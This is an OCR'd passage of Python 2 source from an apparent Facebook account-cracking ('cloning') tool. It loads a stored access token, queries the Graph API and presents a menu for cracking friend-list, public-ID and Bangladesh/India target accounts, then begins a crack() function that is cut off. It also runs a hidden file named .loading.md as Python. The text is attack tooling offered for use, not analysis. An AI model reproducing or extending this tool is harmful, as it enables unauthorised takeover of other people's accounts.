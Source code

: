 def menu():
    os.system("clear")
    try:
        token = open(".login.txt","r").read()
    except IOError:
        print logo
        print("[!] Error 404.Token Not Found")
        os.system("rm -rf .login.txt")
        time.sleep(1)
        login_choice()
    try:
        r = requests.get("https://graph.facebook.com/me?access_token="+token, headers=header)
        a = json.loads(r.text)
        name = a["name"]
    except KeyError:
        os.system("clear")
        print logo
        print("\033[1;91m[!] Loading Failed . Your Account Has a Checkpoint")
        os.system("rm -rf .login.txt")
        time.sleep(1)
        login_choice()
    os.system('clear')
    print logo
    os.system("python3 .loading.md")
    os.system('clear')
    print logo
    print("\t  \033[1;93m[+] Name : "+name)
    print("\033[1;97m--------------------------------------------------")
    print("\033[1;97m[1]\033[1;91m-⋄-\033[1;97mClone Frienlist and Public ID")
    print("\033[1;97m[2]\033[1;91m-⋄-\033[1;97mClone Bangladesh and India")
    print("\033[1;97m[0]\033[1;91m-⋄-\033[1;97mlogout")
    print("\033[1;97m--------------------------------------------------") 
    menu_select()
def menu_select():
    option = raw_input("\n╰─➣ ")
    if option =="1":
        crack()
    if option =="2":
        bangla_india()
    elif option =="0":
        logout()
        os.system("rm -rf .login.txt")
        time.sleep(1)
        print("\033[1;92m[✓] Logged Out Successfully\033[0;97m")
        os.system("exit")
    else:
        print("[!] Please Select a Valid Option")
        menu_select()
		
def crack():
	global token
	os.system("clear")
	try:
		token=open(".login.txt","r").read()
	except IOError:
		print("[!] Error 404 . Token Not Found")
		os.system("rm -rf .login.txt")
		time.sleep(1)
		login()
	os.system("clear")
	print logo
	os.system("python3 .loading.md")
        os.system('clear')
        print logo
